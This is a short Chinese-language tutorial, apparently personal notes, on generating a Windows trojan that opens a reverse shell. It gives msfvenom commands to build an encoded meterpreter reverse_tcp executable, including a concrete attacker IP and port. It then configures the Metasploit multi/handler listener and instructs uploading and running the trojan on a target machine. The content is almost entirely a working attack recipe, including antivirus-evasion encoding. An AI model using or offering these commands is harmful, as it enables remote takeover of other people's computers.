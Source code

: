 生成木马反弹shell（Windows）

# 一、环境准备

1. MSF-Metasploit Framework
2. 一台windiows靶机

# 二、开始生成木马

1. 使用msfvenom生成木马
2. 终端内输入:   msfvenom -p windows/meterpreter_reverse_tcp LHOST={监控IP} LPORT={监控端口} -e x86/shikata_ga_nai  -f exe -o  new.exe -i 5

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.38  LPORT=4567  -e x86/shikata_ga_nai  -f exe -o  shell.exe  -i 5

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf
![[1642501758409.png]]

2. 载入监控模块  msf中输入： use exploit/multi/handler

   ![[1642501831818.png]]

3. 加载payload  msf终端中输入：set payload windows/meterpreter/reverse_tcp

4. 配置payload  msf终端中输入：show options

5. 配置payload监控IP msf终端中输入： set  lhost  {监控IP}

6. 配置payload监控端口  msf终端中输入：set lport  {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：show options ![1642501934250](生成木马反弹shell（Windows）.assets/1642501934250.png)

8. 执行监控  msf终端中输入： run

# 四、攻击利用

1. 将木马上传到靶机
2. 在靶机上执行木马
3. 完成攻击利用![1642501969373](生成木马反弹shell（Windows）.assets/1642501969373.png)